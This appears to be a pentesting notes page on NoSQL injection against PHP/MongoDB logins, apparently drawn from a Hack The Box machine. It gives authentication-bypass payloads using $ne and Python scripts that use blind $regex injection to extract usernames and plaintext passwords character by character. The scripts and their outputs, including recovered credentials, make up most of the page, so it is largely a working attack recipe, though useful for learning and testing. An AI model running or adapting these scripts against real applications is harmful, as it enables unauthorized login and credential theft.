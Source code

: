 ```yaml
---
title: NoSQL Injection (NoSQLi)
category: Web
order: 4
---
```


NoSQL injection attacks can be especially dangerous because code

# Introduction

NoSQL injection vulnerabilities allow attackers to inject code into commands for databases that don’t use SQL queries, such as MongoDB. NoSQL injection attacks can be especially dangerous because code is injected and executed on the server in the language of the web application, potentially allowing arbitrary code execution.

## Simple MongoDB Injection

For a basic authentication bypass, the attacker can try to enter MongoDB operators in field values, for example `$eq` (equals), `$ne` (not equal to) or `$gt` (greater than). Here’s an unsafe way to build a database query in a PHP application, with the parameter values taken directly from a form:

```
$query = array("user" => $_POST["username"], "password" => 
    $_POST["password"]);
```

If this query is then used to check login credentials, the attacker can abuse PHP’s built-in associative array processing to inject a MongoDB query that always returns true and bypass the authentication process. This may be as simple as sending the following POST request:

```
username[$ne]=1&password[$ne]=1
```

PHP will translate this into an array of arrays:

```
array("username" => array("$ne" => 1), "password" => 
    array("$ne" => 1));
```

When sent as a MongoDB query to a user store, this will find all users where the user name and password are not equal to 1, which is highly likely to be true and may allow the attacker to bypass authentication.

# Login Bypass (PHP)

Injecting the `$ne` :

```
#Find some one where username not equals to "" and password not equals to ""
username[$ne]=&password[$ne]=&login=login
```

## Dumping Database (PHP)

First instead of `$ne` we are going to use `$regex` in order to discover character by character.

### Get all Usernames

First we are going to see al type of characters used in the usernames.

```
import sys, os, requests, codecs
import string

s = requests.Session()


for char in string.ascii_lowercase:

	regex = '{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Valid letter: " + char)
```

> **Regex:** {}.\*

```
❯ python3 exploit.py
Valid letter: a
Valid letter: d
Valid letter: g
Valid letter: i
Valid letter: m
Valid letter: n
Valid letter: o
```

Secondly, we are going to check which one goes at firs position:

```
import sys, os, requests, codecs
import string

s = requests.Session()

valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']

for char in valid_letters:

	regex = '^{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Starts with: " + char)
```

> **Regex:** ^{}.\* ^ Indicates starts with

```
❯ python3 exploit.py
Starts with: a
Starts with: m
```

Finally we are going to loop until fails all characters used.

```
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(word):
	valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']
	for char in valid_letters:

		regex = '^{}.*'.format(word+char)
		data_post = {
			"username[$regex]" : regex,
			"password[$ne]" : "password",
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getUser(start):

	name = start
	while True:
		l = nextLetter(name)
		if l is None:
			break;
		else:
			name += l
	return name

startsWith = ['a', 'm']
for char in startsWith:
	print('Username: ' + getUser(char))
```

```
❯ python3 enum_letters.py
Username: admin
Username: mango
```

### Get Passwords:

Same as users but remember to change the `$regex` of the user to `$ne` and the other way with password.

```
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(user, word):

	special_char = ['^','*', '$', '|', '.','\\' ,'+','?']
	for char in string.printable:
		if char in special_char:
			continue;
		regex = '^{}.*'.format(word+char)
		data_post = {
			"username" : user,
			"password[$regex]" : regex,
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getPass(user):

	passw = ""
	while True:
		l = nextLetter(user, passw)
		if l is None:
			break;
		else:
			passw += l
	return passw

users = ['admin', 'mango']
for user in users:
	print('Username: ' + user + ' Password: ' + getPass(user))
```

```
❯ python3 exploit.py
Username: admin Password: t9KcS3>!0B#2
Username: mango Password: h3mXK8RhU~f{]f5H
```

> **Remember:** Escape characters that could lead to problems with a regex.